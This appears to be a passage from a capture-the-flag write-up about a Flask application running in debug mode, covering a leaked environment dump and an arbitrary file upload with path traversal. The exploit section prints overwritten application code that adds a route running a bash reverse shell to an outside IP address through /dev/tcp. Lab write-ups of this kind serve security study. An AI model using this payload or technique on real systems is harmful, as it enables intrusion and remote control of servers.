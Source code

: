 ```
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=33183b996874LANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DPYTHON_VERSION=3.10.3PYTHON_PIP_VERSION=22.0.4PYTHON_SETUPTOOLS_VERSION=58.1.0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.pyPYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279aPYTHONDONTWRITEBYTECODE=1MODE=PRODUCTIONFLASK_DEBUG=1HOME=/rootSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=flaskSUPERVISOR_GROUP_NAME=flaskWERKZEUG_SERVER_FD=3WERKZEUG_RUN_MAIN=true
```

>[!warning]
>Application is running in Debug mode, meaning that code can be altered at run-time without re-starting the web server!

Disclosed a secret when server errored out:

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%206.png)

## Arbitrary File Upload + Path Traversal leading to code injection

Because the **file upload** feature was **vulnerable to path traversal** and the application was running in **debug mode**, it was possible to arbitrary overwrite application source code and **inject custom code** in order to perform code execution.

Exploit:

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app

@app.route('/')
def index():
    return render_template('index.html')

...

@app.route('/maoutis')
def maoutis():
    os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/10099 0>&1'")
    return render_template('index.html')
```
